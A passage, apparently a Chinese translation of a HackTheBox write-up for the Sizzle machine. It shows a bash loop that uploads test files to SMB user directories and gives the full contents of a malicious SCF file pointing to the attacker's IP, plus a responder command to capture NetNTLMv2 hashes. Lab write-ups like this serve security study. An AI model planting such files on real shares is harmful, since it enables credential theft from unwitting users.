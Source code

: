有趣的是授权是 NTLM。我还认为这里的工作凭证很可能是域用户的同一个登录。然后，我返回到*部门共享*共享下的*用户*目录，并注意到有一个公共目录，该目录的最后一次文件写入日期不同。然后，我尝试上传一个名为`test.txt`的虚拟文件，上传成功:

![](img/61fc59ec41a4d0d612709c6ef9ee7651.png)

然后我创建了一个 Bash 一行程序，它将在每个目录上上传`test.txt`文件并列出其内容。

```
for user in $(cat users.txt); do smbclient -D "\Users" -N -c "prompt; cd $user; put test.txt; dir" "\\\\10.10.10.103\\Department Shares"; done
```

除了公共目录，我没有其他目录可以上传。

## SCF 获取 NetNTLMv2:

知道我可以上传文件到一个共享位置，这在 HTB 是一个经常发生的情况，然后我试着上传一个`SCF` (Shell 命令文件),其中包含一个到我的 IP 地址的路径。一旦用户点击了`SCF`文件，SIZZLE machine 将被认证为“点击”SCF 文件的用户。我不会深究技术细节，但是`challenge-respons`场景包括一个由用户密码加密的随机数。然后，我们可以捕获这些信息，并破解散列来获得用户的密码。SCF 文件的内容:

```
[Shell]
Command=2
Iconfile=\\10.10.14.3\sifo\doesntmatter
[Taskbar]
Command=ToggleDesktop
```

然后我运行`responder`，这是一个监听连接和捕获认证请求的工具。我将其设置为在 tun0 接口上监听:

```
responder -I tun0 
```

然后我把名为`@sifo.scf`的文件放在共享上。

> 我添加了“@”，因为这将在打开时将文件放在窗口/文件资源管理器列表的顶部。
